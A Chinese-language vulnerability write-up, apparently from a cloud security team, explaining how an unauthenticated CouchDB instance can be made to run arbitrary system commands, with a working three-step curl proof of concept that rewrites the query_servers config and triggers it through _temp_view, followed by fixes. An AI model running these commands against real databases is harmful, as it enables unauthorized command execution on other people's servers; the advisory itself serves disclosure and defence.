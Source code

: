 # 利用CouchDB未授权访问漏洞执行任意系统命令

0x00 前言
=======

* * *

5月16日阿里云盾攻防对抗团队从外部渠道获知CouchDB数据库存在未授权访问漏洞（在配置不正确的情况下）。经过测试，云盾团队率先发现利用该未授权访问漏洞不仅会造成数据的丢失和泄露，`甚至可执行任意系统命令`。云盾安全专家团队第一时间完成了漏洞上报、安全评级，并通知了所有可能受影响的用户。下面将对该漏洞的出处和技术细节做详细解释。

0x01 漏洞的来龙去脉
============

* * *

CouchDB 是一个开源的面向文档的数据库管理系统，可以通过`RESTful JavaScript Object Notation (JSON) API`访问。CouchDB会默认会在5984端口开放Restful的API接口，用于数据库的管理功能。

那么，问题出在哪呢？翻阅官方描述会发现，CouchDB中有一个`Query_Server`的配置项，在官方文档中是这么描述的：

> CouchDB delegates computation of design documents functions to external query servers. The external query server is a special OS process which communicates with CouchDB over standard input/output using a very simple line-based protocol with JSON messages.

直白点说，就是CouchDB允许用户指定一个二进制程序或者脚本，与CouchDB进行数据交互和处理，`query_server`在配置文件local.ini中的格式：

```
[query_servers]
LANGUAGE = PATH ARGS

```

默认情况下，配置文件中已经设置了两个query_servers:

```
[query_servers]
javascript = /usr/bin/couchjs /usr/share/couchdb/server/main.js
coffeescript = /usr/bin/couchjs /usr/share/couchdb/server/main-coffee.js

```

可以看到，CouchDB在`query_server`中引入了外部的二进制程序来执行命令，如果我们可以更改这个配置，那么就**可以利用数据库来执行命令了**，但是这个配置是在local.ini文件中的，如何控制呢？

继续读官方的文档，发现了一个有意思的功能，CouchDB提供了一个API接口用来更改自身的配置，并把修改后的结果保存到配置文件中：

> The CouchDB Server Configuration API provide an interface to query and update the various configuration values within a running CouchDB instance

![](http://drops.javaweb.org/uploads/images/05a927299b50f874e174d66084cd97cdb8fae3c1.jpg)

也就是说，除了`local.ini`的配置文件，CouchDB允许通过自身提供的`Restful API`接口动态修改配置属性。结合以上两点，**我们可以通过一个未授权访问的CouchDB**，通过修改其`query_server`配置，来执行系统命令。

0x02 漏洞的POC
===========

* * *

新增`query_server`配置，这里执行ifconfig命令

```
curl -X PUT 'http://1.1.1.1:5984/_config/query_servers/cmd' -d '"/sbin/ifconfig >/tmp/6666"'

```

新建一个临时表，插入一条记录

```
curl -X PUT 'http://1.1.1.1:5984/vultest'
curl -X PUT 'http://1.1.1.1:5984/vultest/vul' -d '{"_id":"770895a97726d5ca6d70a22173005c7b"}'

```

调用`query_server`处理数据

```
curl -X POST 'http://1.1.1.1:5984/vultest/_temp_view?limit=11' -d '{"language":"cmd","map":""}' -H 'Content-Type: application/json'

```

![](http://drops.javaweb.org/uploads/images/8834e9098dde132b0c0ee6625b96af6f3c8a383a.jpg)

执行后，可以看到，指定的命令已经成功执行：

![](http://drops.javaweb.org/uploads/images/6595b3b6d031fd612fbb7934a90d7de69aa2d355.jpg)

至于如何回显执行结果，各位可以动动脑筋，欢迎互动。

0x03 漏洞修复建议：
============

* * *

1、指定CouchDB绑定的IP （需要重启CouchDB才能生效） 在 /etc/couchdb/local.ini 文件中找到 “bind_address = 0.0.0.0” ，把 0.0.0.0 修改为 127.0.0.1 ，然后保存。注：修改后只有本机才能访问CouchDB。

2、设置访问密码 （需要重启CouchDB才能生效） 在 /etc/couchdb/local.ini 中找到“[admins]”字段配置密码。

附：参考链接：

*   [http://blog.rot13.org/2010/11/triggers-in-couchdb-from-queue-to-external-command-execution.html](http://blog.rot13.org/2010/11/triggers-in-couchdb-from-queue-to-external-command-execution.html)
*   [http://docs.couchdb.org/en/1.6.1/api/server/configuration.html#api-config](http://docs.couchdb.org/en/1.6.1/api/server/configuration.html#api-config)
*   [http://docs.couchdb.org/en/1.6.1/intro/api.html](http://docs.couchdb.org/en/1.6.1/intro/api.html)
*   [http://docs.couchdb.org/en/1.6.1/config/query-servers.html](http://docs.couchdb.org/en/1.6.1/config/query-servers.html)